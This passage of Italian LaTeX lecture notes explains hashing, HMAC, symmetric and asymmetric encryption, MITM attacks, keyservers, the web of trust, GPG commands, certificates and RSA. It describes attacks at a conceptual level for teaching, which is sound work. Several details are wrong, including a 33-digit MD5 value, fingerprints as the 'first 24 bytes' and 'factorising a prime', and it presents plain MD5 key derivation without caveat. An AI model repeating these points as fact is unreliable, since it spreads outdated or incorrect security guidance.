	
\includegraphics[scale = 0.5]{images/SHA_example}
	\caption{Esempio di trasmissione di un messaggio mediante funzione hash SHA-1.}
	\label{img:SHA_example}
\end{figure}\\
In generale, dunque, le funzioni hash si accompagnano spesso a metodi di \textit{autenticazione}; di seguito ne è riportato uno: HMAC. 

Un HMAC (keyed-\textbf{H}ash \textbf{M}essage \textbf{A}uthentication \textbf{C}ode) accoppia l'utilizzo di una chiave simmetrica ad una funzione hash per garantire oltre, che l'integrità, anche l'autenticazione dei dati. Una chiave simmetrica non è altro che una stringa di lunghezza opportuna scelta in modo meno predicibile possibile. Spesso, per generare una chiave simmetrica si usano delle funzioni hash a partire da una password alfanumerica, e.g. $K = \text{md5(password)} = 0\text{x}12ab5893092ba4183f3a345872b34f233$. Se si dispone di una buona funzione hash, si può generare un HMAC componendo la funzione hash con la chiave:
$$HMAC_K(m) = H\left((K' \oplus opad)\; ||\; H\left((K' \oplus ipad)\; || \; m\right) \right),$$
dove $H$ è una funzione hash crittografica, $K$ è la chiave segreta, $m$ è il messaggio che deve essere autenticato, $K'$ è un'altra chiave segreta derivata dalla chiave originale $K$, $||$ denota la concatenazione, $\oplus$ denota l'OR esclusivo (XOR), $opad$ e $ipad$ sono rispettivamente outer e inner padding che rappresentano due sequenze numeriche note (dall'RFC 2104 dell'HMAC) e servono a distinguere i due blocchi di byte che si ottengono. Si nota facilmente a questo punto che il digest può essere calcolato solo se si conosce anche la chiave $K$.
\begin{example}[Uso di un HMAC]$\\$
Supponiamo che $A$ e $B$ si mettano d'accordo su una password. Per mettersi d'accordo devono usare un canale sicuro, si vedono di persona o si telefonano. $A$ per inviare un messaggio $m$ a $B$ compie le seguenti azioni: calcola $K = \text{md5(password)}$, calcola $HMAC_K(m)$ ed invia a $B$ la coppia $m, HMAC_K(m)$. Si noti che le informazioni $m, HMAC_K(m)$ possono essere inviate accoppiate nello stesso pacchetto.
\end{example}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/HMAC}
	\caption{Esempio di calcolo di HMAC.}
	\label{img:HMAC}
\end{figure}
Vediamo brevemente i vantaggi rispetto ad una funzione hash. Se $E$ intercetta entrambe le informazioni $m, HMAC_K(m)$ per cambiare il messaggio $m$ dovrebbe modificare $m$ in $m'$ e ricalcolare $HMAC_K(m')$; tuttavia, dal momento che $E$ non è in possesso di $K$ non può calcolare l'HMAC. Schemi di questo tipo vengono utilizzati per garantire l'integrità e implicitamente anche l'autenticazione di pacchetti di livello MAC in molte reti (es. WiFi). Affinché le chiavi siano il più robuste possibile, devono essere generate in modo casuale attraverso un \textit{rumore bianco} per garantire la non correlazione tra i valori generati (motivo per cui si fa l'hash della chiave nell'HMAC).

Vediamo adesso i problemi dell'HMAC. Il primo problema è di gestione: se $A$ e $B$ si devono scambiare una chiave in modo sicuro, un metodo del genere non è utile per comunicazioni via Internet. Il secondo problema sono gli attacchi a forza bruta: $E$ potrebbe intercettare un pacchetto ed cercare di indovinare la chiave $K$:
\begin{enumerate}
	\item Dato $m$ e $K=0\text{x}00000000000000000000000000000000$
	\item Il digest $D=HMAC_K(m)$? Se è vero, allora $K$ è la chiave giusta, altrimenti poni $K=0\text{x}00000000000000000000000000000001$ e riprova.
\end{enumerate}
Un attacco di questo tipo è computazionalmente impegnativo: per calcolare tutte le chiavi possibili $2^{128}$ sono necessari migliaia di anni con i computer di oggi. Tuttavia, se la chiave $K$ è generata da una password, allora l'attacco diventa possibile attraverso ad esempio un dizionario:
\begin{enumerate}
	\item Dato $m$ e $K=\text{md5}(abaco)$, $D=HMAC_K(m)$.
	\item Se è falso, poni $K=\text{md5}(abate)$ e così via.
\end{enumerate}
Le parole di un dizionario potrebbero essere anche alcune decine di migliaia e per generarle tutte ci vogliono pochi minuti. Per questo le password non dovrebbero essere scelte come parole esistenti.

\subsection{Cifratura a chiave simmetrica}
I due elementi principali di un sistema crittografico sono il \textit{cifrario} (un algoritmo) ed una \textit{chiave} (informazione); il metodo si suppone noto a tutti, mentre la chiave deve rimanere segreta. La conoscenza della chiave consente di cifrare/decifrare documenti ed in certi casi può costituire una prova certa di identità. Gli algoritmi di cifratura implementano la segretezza ed a volte l'autenticazione dei dati. Uno dei principi fondamentali è il \textbf{principio di Kerchoffs} che afferma che (1) gli algoritmi crittografici devono essere noti a priori e che (2) un prodotto che garantisce una cifratura con un algoritmo segreto, non è un buon prodotto (se il sistema \textquotedblleft va giù" non sappiamo né come recuperarlo né dove agire per risolvere eventuali problemi).

Vediamo adesso brevemente come funziona una cifratura a chiave simmetrica. Come per un HMAC, due soggetti $A$ e $B$ si accordano su una chiave $K$ od una password da cui generare $K$; solo con la chiave $K$ si possono cifrare e decifrare i messaggi. Generalmente l'algoritmo è lo stesso sia per la cifratura sia per la decifratura. Dunque data una \textit{chiave privata condivisa} $K$ ed un algoritmo (e.g. DES) mittente e destinatario possono codificare e decodificare i messaggi con la chiave scambiata $K$. La robustezza degli algoritmi simmetrici è legata alla lunghezza della chiave: tanto più lungo è il testo della chiave segreta, tanto più difficile è decifrare il messaggio in tempo utile. In genere le chiavi per essere \textquotedblleft forti" dovrebbero avere una lunghezza di almeno 128 bit.

I problemi di questo tipo di cifratura sono, da una parte la necessità di scambiarsi la chiave in anticipo (poca flessibilità di questo strumento), dall'altra si è esposti ad attacchi a forza bruta, anche se più difficili rispetto al caso dell'HMAC. Infatti, per l'attaccante non è facile sapere ad ogni tentativo se il testo decifrato è quello corretto. Per questo motivo le due tecniche possono essere combinate: prima si genera l'HMAC con una chiave $K$, poi si cifra tutto il pacchetto, compreso l'HMAC con una seconda chiave $K'$. In questo modo si è ragionevolmente sicuri di avere segretezza ed integrità dei dati, oltre ad una forma di autenticazione che dipende da come si sono scambiate le chiavi. Questo tipo di approccio si ritrova nelle reti LAN in cui è facile pre-impostare le chiavi segrete a mano sulle macchine. Si noti che la chiave dell'HMAC deve essere diversa da quella simmetrica.

Si noti che la validità della chiave segreta sta nel fatto che, nel caso di due utenti, deve poter esistere una ed una sola chiave segreta. Ma se abbiamo un numero alto di utenti (pensiamo a un servizio bancario via internet) allora dovranno esistere $N$ chiavi segrete, per garantire la comunicazione codificata. Però generare, ad esempio, un milione di chiavi segrete per un milione di utenti comporta, senza dubbio, tempi e spese. Questo problema viene risolto dalla crittografia asimmetrica.

\subsection{Cifratura a chiave asimmetrica}
In questo tipo di crittografia $A$ e $B$ possiedono due chiavi ciascuno: una chiave pubblica $Pub_A$, $Pub_b$ ed una chiave privata $Priv_A$, $Priv_B$. La chiave privata deve essere mantenuta segreta. È fondamentale che $A$ sia l'unico possessore di $PrivA$ (lo stesso vale per $B$). La chiave pubblica invece è pubblica, $A$ può pubblicare la sua chiave $Pub_A$ su Internet rendendola nota a tutti.\\
L'idea (Figura \ref{img:asymmetric_encryption}) è che ciò che viene cifrato con una chiave pubblica può essere decifrato solo con la corrispondente chiave privata; è computazionalmente impossibile risalire ad una chiave privata tramite la chiave pubblica. Se $A$ utilizza la chiave pubblica di $B$ per cifrare un messaggio, allora solo $B$ può decifrarlo, perché è l'unico che possiede la corrispondente chiave privata. Si ottiene quindi il servizio di sicurezza della \textit{segretezza}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.6]{images/asymmetric_encryption}
	\caption{Esempio di cifratura a chiave asimmetrica.}
	\label{img:asymmetric_encryption}
\end{figure}\\
Ricapitolando, ogni utente ha due chiavi legate in modo inscindibile che possono essere generate insieme da programmi appositi: una chiave viene resa pubblica (possibilmente in un elenco pubblico accessibile da chiunque), mentre l'altra è in possesso del solo utente. Non è necessario concordare preventivamente una chiave di cifratura comune per scambiarsi un documento riservato. La chiave privata di un utente è sempre segreta.

Le chiavi pubblica e privata sono invertibili: se $A$, che è l'unico possessore della chiave $Priv_A$, usa questa chiave privata per cifrare un messaggio, allora chiunque possegga $Pub_A$ può decifrarlo. Siccome $Pub_A$ è pubblica la possiedono tutti, dunque il messaggio è decifrabile da chiunque. Ma, dato che solo $A$ è in possesso di $Priv_A$, chi decifra il messaggio è sicuro che il messaggio provenga direttamente da $A$. Con questo utilizzo la cifratura a chiave asimmetrica non serve a garantire segretezza ma serve a garantire l'autenticazione del mittente. Questo tipo di uso si chiama \textbf{firma digitale} (Figura \ref{img:digital_signature}) e fornisce l'autenticazione e non la ripudiabilità dei dati.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/digital_signature}
	\caption{Esempio di firma digitale.}
	\label{img:digital_signature}
\end{figure}\\
Il tipico attacco che si può compiere contro una cifratura asimmetrica è il man-in-the-middle (MITM) che è possibile quando $A$ e $B$ non possiedono le chiavi l'uno dell'altro. Un esempio classico è il seguente. Supponiamo che $A$ invii a $B$ la sua chiave pubblica $Pub_A$; se $E$ intercetta il messaggio può scambiare la chiave $Pub_A$ con $Pub_E$ e dunque $B$ riceve la chiave $Pub_E$ convinto che sia la chiave di $A$. $B$ invia dunque un messaggio $M$ cifrato con chiave $Pub_E$, $E$ lo intercetta, lo decifra, lo cifra nuovamente con la chiave $Pub_A$ e lo invia ad $A$. L'entità $A$ riceve quindi il messaggio e lo decifra, ma $E$ ha potuto intercettare il contenuto ed eventualmente modificarlo.

Un attacco MITM è sempre possibile quando $A$ e $B$ non conoscono in anticipo le rispettive chiavi. Le chiavi quindi non devono essere scambiate durante la comunicazione stessa, ma attraverso qualche altro mezzo. Si ricrea dunque il problema visto precedentemente con la chiave simmetrica, ovvero che deve esistere un mezzo \textit{sicuro} attraverso il quale $A$ e $B$ si scambiano la chiave. La grande differenza rispetto al caso precedente è che per \textit{sicuro} non si intende segreto, ma semplicemente autenticato.\\
Per risolvere questo tipo di problema si utilizzano \textbf{fingerprint}, \textbf{keyserver} e \textbf{Web Of Trust}.

Una \textit{fingerprint} è semplicemente una piccola parte dell'hash della chiave pubblica, in particolare i primi 24 byte. È altamente improbabile che due chiavi pubbliche diverse abbiano i primi 24 byte in comune. Il destinatario può facilmente controllare se i messaggi che sta ricevendo provengono dallo stesso mittente verificando che tutti presentino lo stesso fingerprint. Inoltre è molto più semplice distribuire una fingerprint rispetto ad una chiave pubblica; ad esempio, può essere utilizzata come signature nella posta elettronica oppure potrebbe essere inserita in un biglietto da visita. Se riceviamo posta elettronica da qualcuno da anni ed esso usa la sua fingerprint nella signature, il giorno in cui si ha bisogno di utilizzare la sua chiave pubblica lui la invierà e sarà possibile verificare se la chiave che ricevuta corrisponde alla fingerprint che lui ha usato in passato.

I \textit{keyserver} sono server pubblici sui quali è possibile caricare le chiavi pubbliche. Il keyserver non garantisce niente: non si fa carico di stabilire l'associazione tra utente e chiave, accetta semplicemente l'upload e il download delle chiavi stesse. Nella chiave si possono inserire informazioni come il nome utente o il suo indirizzo di posta elettronica, quindi cercando in un motore di ricerca è possibile trovare la chiave pubblica di chi vogliamo. Si noti però che trovare la chiave di una certa persona $x$ su un keyserver non dà alcuna certezza sul fatto che $x$ usi veramente quella chiave. I keyserver sono solo un \textquotedblleft modo comodo" per archiviare ed accedere a chiavi pubbliche: è necessario accertarsi che la chiave presa in considerazione corrisponda veramente all'identità dichiarata.
\begin{figure}[htbp]
	\centering
	\begin{tikzpicture}[->,>=stealth',shorten >=1pt,auto,node distance=5cm,
	semithick, scale = 0.6, transform shape]
	
	\node[state] (1) {$KS$};
	\node[state] (2) [left of=1] {$A$};
	\node[state] (3) [right of=1] {$B$};
	\node[state] (4) [below of=1] {$E$};
	
	\path 	(2) edge node {(1) $Pub_A$} (1)
	(4) edge node {(2) $Pub_A$} (1)
	(3) edge node {(3) $Pub_A$?} (1)
	(1) edge [bend left] node {(4) $Pub_A$!} (3);
	\end{tikzpicture}
	\caption{Esempio di \textquotedblleft attacco" ad un keyserver.}
	\label{graph:KS_attack}
\end{figure}\\
In Figura \ref{graph:KS_attack} è riportato un esempio di cambio di una chiave pubblica da parte di un attaccante. La comunicazione fra $B$ ed il keyserver è protetta, dunque $E$ non può stare tra il keyserver e $B$. $E$ può stare tra $A$ ed il keyserver: se $A$ non controlla frequentemente la propria chiave sul keyserver questa potrebbe essere sostituita da quella di un attaccante che quindi sarebbe associato all'identità di $A$.

L'idea di un \textit{Web Of Trust} (\textit{WOT}) è invece quella di creare una rete di contatti attraverso la quale i partecipanti certificano l'identità altrui. Il principio alla base di un WOT è che se $A$ conosce personalmente $B$, allora $A$ può certificare $Pub_B$, ovvero garantire agli altri che una certa chiave è effettivamente quella di $B$. Se un'entità $C$, pur non conoscendo $B$, conosce $A$, allora $C$ ha un livello \textquotedblleft di affidabilità" maggiore nella chiave $Pub_B$ rispetto alla certificazione di un qualche altro utente che non conosce né $A$ né $B$.\\
Ogni utente quindi ha interesse affinché la propria chiave sia certificata dal maggior numero di persone possibile, poiché in tal caso aumenterebbe il proprio \textit{trust}. Le certificazioni avvengono utilizzando la propria chiave privata per firmare la chiave pubblica altrui.
\begin{example}[WOT]$\\$
Supponiamo che $A$ generi la propria coppia di chiavi $Pub_A$ e $Priv_A$. La chiave pubblica contiene l'informazione che tale chiave appartiene ad $A$. A questo punto, $A$ si reca da $B$, gli mostra un documento e gli consegna la fingerprint della chiave; $B$ scarica la chiave da un keyserver e controlla che la fingerprint corrisponda. Da questo punto in poi $B$ può firmare con la propria chiave privata $Priv_B$ la chiave pubblica di $A$, $Pub_A$, e può caricare la chiave firmata sul keyserver.
\end{example}
Il limite di questa tecnica sta nel fatto che un possibile attaccante potrebbe farsi firmare la propria chiave pubblica da tante altre entità che conosce, facendo così crescere il proprio livello di trust ed allo stesso tempo fingersi un'altra entità.

Il primo programma che permetteva agli utenti di generare chiavi pubbliche/private e inviarsi messaggi cifrati è stato PGP (Pretty Good Privacy). Questo programma ha avuto molti problemi di distribuzione all'inizio della sua vita, perché le leggi statunitensi trattavano la crittografia alla stregua di armi e ne vietavano l'\textit{esportazione}. Il PGP in principio era distribuito con il codice sorgente; in seguito il codice sorgente è stato chiuso ed il programma è diventato commerciale. Nacque dunque GPG (GNU Privacy Guard), che implementa le stesse funzioni ma venne rilasciato con una licenza libera, la GNU GPL. GPG può essere usato anche con programmi di posta elettronica come Thunderbird.

Vediamo di seguito alcuni comandi bash utili per utilizzare GPG.\\
I seguenti comandi servono rispettivamente per creare chiavi, esportare chiavi, caricare una chiave su un keyserver e cifrare i messaggi:
\shellcmd{gpg --gen-key}
\shellcmd{gpg --export --armor C93F299D}
\shellcmd{gpg --keyserver pgp.mit.edu --send-key C93F299D}
\shellcmd{gpg --encrypt -r C93F299D file}

\subsection{Certificati}
Il WOT di GPG è comodo, ma si basa sulla fiducia reciproca e sul grande numero di persone che vi partecipano. In contesti più formali, affinché una chiave pubblica sia associata ad una
persona, sono necessarie garanzie più forti che possono essere date solo da terze parti riconosciute: gli \textit{enti certificatori}.\\
Una CA (Certification Authority) è un ente che garantisce l'associazione tra chiave pubblica e persona fisica. L'ente possiede una sua coppia di chiavi pubblica/privata, gli utenti conoscono l'ente (e la sua chiave pubblica) e si fidano delle certificazioni che rilascia. La certificazione avviene esattamente come per le chiavi GPG, ma utilizza un formato di file diverso: lo standard \textsf{X.509}. Alcuni esempi di enti di certificazione sono Poste Italiane e Verisign.

Vediamo adesso più nel dettaglio come avviene la certificazione. L'utente $A$ genera una coppia di chiavi pubblica/privata ed invia all'ente certificatore la propria chiave pubblica ed un documento. L'ente restituisce la chiave pubblica dell'utente A firmata con la propria chiave privata; il contenitore in cui si sposta la chiave è un \textit{certificato}. Si noti che questa procedura è necessaria una sola volta, alla creazione della chiave. In questo modo l'ente certificatore non conosce la chiave privata, che rappresenta quindi una maggiore garanzia dell'utente. In un caso più semplice la CA invia entrambe le chiavi e il certificato all'utente.\\
Quando un secondo utente $B$ deve parlare con $A$, $B$ chiede ad $A$ il suo certificato dal quale estrae la chiave pubblica di $A$ e verifica che la firma digitale dell'ente certificatore sia corretta utilizzando la chiave pubblica dell'ente. A quel punto è sicuro che l'utente $A$ è veramente chi dichiara di essere, poiché l'ente certificatore è testimone per lui.\\
Nel caso in cui un utente voglia utilizzare la propria firma digitale per qualche scopo, questa risulta valida solo se certificata da un'ente: la firma digitale certificata ha lo stesso identico valore legale della firma manoscritta su carta. Attraverso un sistema di certificati si può ottenere inoltre un accurato controllo degli accessi.
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|}
		\hline
		ID ente certificatore \\
		\hline
		Serial Number \\
		\hline
		Periodo di validità \\
		\hline
		Dati del soggetto \\
		\hline
		Chiave pubblica \\
		\hline
		Firma digitale del CA \\ \hline
	\end{tabular}
	\caption{Campi principali di un certificato.}
	\label{tab:certificate}
\end{figure}\\
In Figura \ref{tab:certificate} sono riportate le informazioni principali presenti in un certificato. Contiene: i dati identificativi dell'entità che svolge il ruolo di garante, un serial number che identifica univocamente il certificato, il periodo di validità, i dati identificativi del soggetto (utente o dispositivo) per cui è rilasciato, la chiave pubblica del soggetto e la firma digitale dell'ente che ha emesso il certificato.

Lo stesso modello può essere riprodotto per qualsiasi contesto, anche senza bisogno di contattare una CA ufficiale. Supponiamo, ad esempio, di amministrare la rete in una certa azienda e di avere a disposizione i seguenti servizi: posta elettronica per gli utenti, sito web e rete interna a cui collegare computer fissi e portatili. È possibile creare una propria CA avente una coppia di chiavi ed il certificato. In questo caso il certificato è \textit{autofirmato}, ovvero la CA certifica sé stessa. Con questa CA è possibile quindi rilasciare certificati validi per tutti gli utenti, in modo che possano inviare solo posta elettronica firmata digitalmente. Ogni volta che un utente riceve una e-mail questa è autenticata e cifrata. I browser installati sui computer aziendali possiederanno un certificato proprio: in tal modo il server può accettare connessioni solo dalle macchine utilizzate. Quando un portatile si connette alla rete, prima di essere abilitato a trasmettere e ricevere traffico, dovrà autenticarsi con un server utilizzando un certificato valido. Generalmente, piuttosto che non avere un certificato, è meglio averlo autofirmato, perché si presume che la chiave privata del CA ipotetico sia diverso da un altro CA con lo stesso nome usato dell'attaccante.\\
Dunque anche se la CA non è ufficiale è possibile utilizzarla all'interno della propria organizzazione per aumentare il livello di sicurezza delle comunicazioni. È inutile sottolineare che se per qualche motivo il server su cui risiedono le chiavi pubbliche e private della CA viene compromesso, automaticamente è compromessa anche la sicurezza di tutta la rete.\\
Ipotizziamo, adesso, di avere davanti uno dei seguenti scenari:
\begin{itemize}
	\item Un utente perde il portatile con dentro un certificato valido;
	\item Uno dei server con un certificato viene compromesso;
	\item Si scopre che un utente si \textit{comporta male}.
\end{itemize}
In questi casi la cosa da fare è quella di revocare le credenziali di alcuni utenti, ovvero riuscire ad invalidare i certificati già rilasciati. Per farlo ricorriamo alle \textit{Certificate Revocation List} (CRL). Una CRL è semplicemente una lista di certificati che sono stati revocati dall'ente certificatore. Revocare un certificato significa che il certificato non deve essere più utilizzato; nella pratica avviene che la CA mantiene una lista di certificati non più validi e la distribuisce firmandola con la sua chiave privata. Nella gestione di una rete sicura quindi si deve tenere conto anche del fatto che deve esistere un servizio attraverso il quale un utente può scaricare la CRL più aggiornata. Le CRL introducono un elemento di complicazione in più ma sono necessarie: rendono infatti i certificati non più autonomi (auto-verificabili), ma emerge la necessità di richiedere un parere ad un ente terzo.

Vediamo adesso un \textit{approccio misto}: il WOT di Thawte. Thawte è un'azienda che possiede una CA autorizzata, ma rilascia anche certificati secondo la logica del WOT. Thawte ha dei \textit{notai}. I notai possono certificare altre persone, pur non essendo direttamente dipendenti di Thawte. Nella pratica funziona nel seguente modo: si crea un account Thawte e si va da un notaio portando il numero dell'account creato ed una fotocopia di due documenti. Il notaio ha il potere di accedere al sito di Thawte ed accreditare dei \textit{punti} sull'account personale creato. Non appena si raggiunge un numero sufficiente di punti, viene da Thawte consegnato un certificato per la propria identità \textit{rilasciato dalla CA autorizzata di Thawte}. Continuando ad incontrare notai è possibile accumulare punti fino a diventare noi stessi notai. Chiaramente i domini dei certifcati Thawte per il WOT e per le attività commerciali sono separati. Questo modello tuttavia non ha avuto molto successo, poiché dal punto di vista del business non è molto buono.

Un esempio di programma per gestire una certification authority è TinyCA. Attraverso questo programma è possibile generare certificati e firmare chiavi pubbliche.

\subsection*{Riepilogo}
Finora abbiamo visto sostanzialmente due tipi di crittografia: simmetrica e asimmetrica. La crittografia simmetrica ha bisogno di un canale sicuro per lavorare, cosa che non è necessaria in quella asimmetrica. L'aspetto positivo della crittografia simmetrica è che è \textit{computazionalmente semplice} in quanto la complessità computazionale è dipendente dalla lunghezza della chiave (corta). Questo aspetto non è vero nella crittografia asimmetrica: si ha a che fare con chiavi lunghe che rendono gli algoritmi computazionalmente molto pesanti. Si noti che la complessità computazionale è direttamente proporzionale alla sicurezza della chiave. Solitamente le due tecniche vengono utilizzate insieme per garantire sicurezza e performance.

Vediamo quindi un esempio di un possibile sistema misto per la sicurezza dello scambio di informazioni tra $A$ e $B$\footnote{con $\{x\}_y$ si indica il messaggio $x$ cifrato con la chiave $y$.}:
\begin{enumerate}
	\item $A\to B$: $A$ manda a $B$ il proprio certificato $C_A$.
	\item $A \leftarrow B$:  $B$ manda a $A$ il proprio certificato $C_B$.
	\item $A\to B$: $A$ genera un numero casuale $R$ e trasmette $\{R\}_{C_B}$.
	\item $A\leftarrow B$: $B$ genera un numero casuale $P$ e trasmette $\{P\}_{C_A}$.
\end{enumerate}
La chiave segreta generata è $K=hash(P\oplus R)$ ($\oplus$ è l'operazione di XOR). Dopo lo scambio effettuato le due parti possono smettere di utilizzare le chiavi pubbliche e continuare a cifrare ed autenticare il traffico solo con la chiave $K$, in modo computazionalmente vantaggioso. Si noti che il precedente algoritmo è una semplificazione di quelli reali e presenta molti difetti: in pratica serve solo a rendere l'idea del funzionamento di algoritmi più complessi come l'RSA.

\section{Cenni teorici}
\begin{defn}[Campo]$\\$
	Un campo finito $\mathbb{F}$ è un insieme di elementi con due operatori ($+$ e $\cdot$) tali per cui valgono le seguenti proprietà: chiusura rispetto alla somma, associatività della somma, identità additiva, inverso additivo, commutatività della somma, chiusura rispetto al prodotto, associatività del prodotto, leggi distributive, commutatività del prodotto, identità moltiplicativa, annullamento del prodotto ed inverso moltiplicativo.
\end{defn}
\begin{defn}[Campo $\mathbb{Z}_n$]$\\$
	Il campo $\mathbb{Z}_n$ è il campo ottenuto dall'insieme dei numeri interi in $[0,n-1]$, dove $n$ è un numero primo, considerando le operazioni di $+$ e $\cdot$ modulo $n$.
\end{defn}
\noindent
Se $a, n$ sono interi, si definisce $a\bmod n$ come il resto della divisione di $a$ per $n$. Le operazioni in modulo sono la somma
$$[a\bmod n + b\bmod n]\bmod n = (a+b)\bmod n$$
e la moltiplicazione
$$[a\bmod n \cdot  b\bmod n]\bmod n = (a\cdot b)\bmod n$$
Inoltre, per qualsiasi elemento $a\in\mathbb{Z}_n$ esiste un unico $a^{-1}$ tale per cui $a\cdot a^{-1} = 1\bmod n$, ovvero un unico inverso moltiplicativo.
\begin{defn}[Funzione Toziente di Eulero $\phi(x)$]$\\$
	La funzione Toziente di Eulero $\phi(x)$ è il numero di interi positivi minori di $x$ e primi relativi di $x$. Si dimostra che se $p, q$ sono due numeri primi e $x=p\cdot q$, allora $\phi(x)=(p-1)(q-1)$.
\end{defn}
Si noti che calcolare $\phi(x)$ per un qualsiasi $x$ è computazionalmente oneroso, impossibile per $x$ sufficientemente grandi. Se $x=p\cdot q$ e conosciamo $x$ ed almeno uno tra $p$ e $q$ è invece possibile calcolare l'altro.
\begin{thm}[di Eulero]$\\$
	Siano $a, x$ primi tra loro. Allora $a^{\phi(x)}=1(\bmod x)$.
\end{thm}
\noindent
Gli algoritmi di crittografia in generale si basano su due principi:
\begin{enumerate}
	\item Il messaggio cifrato deve essere sicuro e non deve essere possibile tornare al messaggio originale da parte di terzi;
	\item Dato un messaggio cifrato, anche avendo un possibile messaggio originale, non deve essere possibile risalire alla chiave originaria. Questo meccanismo è realizzato attraverso una \textit{funzione trappola} (fattorizzazione di un numero primo). Un esempio è il Teorema di Eulero.
\end{enumerate}
Nel seguito vedremo alcuni degli algoritmi crittografici più famosi ed utilizzati.

\subsection{RSA}
RSA è un algoritmo di crittografia asimmetrica inventato nel 1977 da Ronald \textbf{R}ivest, Adi \textbf{S}hamir e Leonard \textbf{A}dleman utilizzabile per cifrare o firmare informazioni. Vediamone brevemente l'idea.

Dati $p, q$ e $n=p\cdot q$, dato $m$ un numero di dimensione inferiore a $n$ ($m$ può essere la codifica binaria di qualsiasi testo in chiaro), si dimostra che se $e, d$ sono inversi moltiplicativi modulo $\phi(n)$, ossia $ed=1\bmod\phi(n)$, allora
\begin{align*}
	m^{ed}&\bmod n && \\
	=m^{1+k\phi(n)}&\bmod n && \\
	=m(m^{k\phi(n)})&\bmod n && \\
	=(m\bmod n)(m^{k\phi(n)})&\bmod n && \\
	=(m\bmod n)((m^{\phi(n)})^k)&\bmod n && \\
	=m&\bmod n && \text{(per il Teorema di Eulero)}
\end{align*}
Dato $c=(m^e) (\bmod\;n)$ è computazionalmente oneroso ricavare $m$, impossibile per numeri grandi. Quindi è possibile cifrare un messaggio $m$ semplicemente calcolando $(m^e)(\bmod\; n)$ ed è possibile decifrare il messaggio criptato elevandolo alla $d$ e calcolandone il modulo. Dunque la coppia $(e, n)$ costituisce la chiave pubblica, mentre la coppia $d, n$ la chiave privata. Ad oggi, per valori di $(e, n)$ non piccoli ($> 1$ Kbit), non esistono algoritmi che permettono di ricavare $d$, data la coppia $(e, n)$, e $m$, dato $c$.

